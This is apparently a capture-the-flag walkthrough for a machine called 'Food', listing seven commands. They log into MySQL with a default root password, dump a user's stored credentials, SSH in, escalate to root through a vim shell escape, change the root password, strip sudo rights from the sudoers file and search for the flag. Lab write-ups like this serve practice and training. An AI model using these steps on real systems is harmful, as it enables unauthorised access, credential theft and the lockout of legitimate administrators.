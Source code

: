 # Food
 1. `mysql -u root -h $IP -p` password is `root`
 2. `select * from user` now you have user `ramen : noodlesRTheBest`
 3. `ssh -l ramen $IP`
 4. `vim -c ':!/bin/bash'` now you are root
 5. `passwd` and change root passwd
 6. `vim /etc/sudoers` and delete sudo perms
 7. `find / -name flag 2>/dev/null`

